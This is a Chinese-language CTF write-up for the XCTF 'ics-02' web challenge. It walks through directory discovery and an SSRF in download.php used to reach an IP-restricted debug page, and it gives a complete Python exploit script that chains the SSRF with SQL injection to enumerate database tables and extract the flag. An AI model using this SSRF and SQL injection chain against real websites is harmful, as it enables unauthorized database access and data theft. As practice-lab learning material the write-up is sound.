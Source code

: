 # ics-02

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=217628e4-d02f-4690-b8fe-30f410107d97_2)

期待集齐全套ics。

进到网站，一通乱点，发现只有右上角的文档中心可以点。可以下载一篇论文，下载下来却是php后缀。谁会把论文写php里啊？这个后缀肯定有问题。file命令看看是什么文件。

- file download.php
  > download.php: PDF document, version 1.3

pdf才正常。改后缀名打开，是讲ssrf的。这不会是暗示吧？先放一边，看看源码中的下载方式，里面总是藏着好东西，文件包含什么的。

```html
<a href="download.php?dl=ssrf">paper. </a>
```

这个链接可能是文件包含，又一次提到了ssrf。ssrf我可不会啊，知道是什么东西但是做的题不多。扫一波目录看看，发现secret目录。怎么又叫secret啊，以后干脆把这个名字跟robot.txt作为首选项得了。去到secret目录，发现开启了目录浏览，里面有两个文件：secret.php,secret_debug.php。

secret.php里是个调查问卷，全部选第一个后点击continue就来到了一个注册界面。注意此时的url发生了巨大变化。

- http://61.147.171.105:62778/secret/secret.php?s=2&rbCitizen=Y&rbAge=Y&rbResident=Y&rbFelony=rbFelony1&btnContinue=Continue

按照注册界面的要求填写信息，来到了注册成功界面。url同样发生了变化。

- http://61.147.171.105:62778/secret/secret.php?s=3&txtfirst_name=d&txtmiddle_name=d&txtLast_name=d&txtname_suffix=dd&txtdob=11%2F11%2F11&txtdl_nmbr=123456789&txtRetypeDL=123456789&btnContinue2=Continue

看见注册界面不搞sql注入我不是很认可。这次的sql注入过于明显了，我点击返回然后重新提交注册信息，直接显示sql中的key重复提示。但是这样是爆不出信息的，各种引号都来一下，这回竟然没有报错了。大智若愚的代码？先不管了，之前不还落了个secret_debug.php没看吗？

- You (IP地址) do not have access to this page..

给了ip地址加上之前各种ssrf的暗示，绝对是ssrf有关漏洞了。download.php属于内网，可以对自身发起请求，我们让download.php对secret_debug.php发起请求，那发送什么呢？肯定先要测试一下看看思路对不对。

![ssrf](../../images/ssrf.png)

虽然提示了文件不存在，但是我们仍然可以得到想要的页面内容，ssrf实锤。此处做了url编码的原因是download.php会在&号前加上.pdf，导致后面的内容被截断。编码后再在最后加一个&，让服务器解码后在最后的&加上pdf，就不会截断了。

然而这题的难点不在ssrf，而是sql。看起来很简单的代码其实并不。先放wp。

```python
import requests
import random
import urllib

url = 'http://61.147.171.105:62778/download.php'

# subquery = "database()"
# ssrfw
# subquery = "select group_concat(table_name) from information_schema.tables where table_schema='ssrfw'"
# etcYssrf,users
# subquery = "select group_concat(column_name) from information_schema.columns where table_name='cetcYssrf'"
# secretName,value
# subquery = "select secretName from cetcYssrf LIMIT 1"
# secretname -> flag
subquery = "select value from cetcYssrf LIMIT 1"
# value -> flag{cpg9ssnu_OOOOe333eetc_2018}

id = random.randint(1, 10000000)

dl = ('http://127.0.0.1/secret/secret_debug.php?' +
        urllib.parse.urlencode({
            "s": "3",
            "txtfirst_name": "A','b',("+subquery+"),'c'/*",
            "txtmiddle_name": "B",
            "txtLast_name": "C",
            "txtname_suffix": "D.",
            "txtdob": "*/,'01/10/2019",
            "txtdl_nmbr": id,
            "txtRetypeDL": id
            }) + "&")

r = requests.get(url, params={"dl": dl})
print(r.text)
```

闭合为单引号，A'闭合first_name，'b'对应接下来的middle_name，subquery对应Last_name，因为在成功注入的界面中，只有first_name,last_name和dob会回显。dob有格式要求，first_name需要闭合，那只有last_name处回显爆的信息了。'c'对应name_suffix，然后多行注释掉原本的middle_name,last_name和name_suffix，到dob停止注释，原因跟上面说的一样，有格式限制。id正常填。不知道大佬们怎么盲注看出来这个的。

- ### Flag
  > flag{cpg9ssnu_OOOOe333eetc_2018}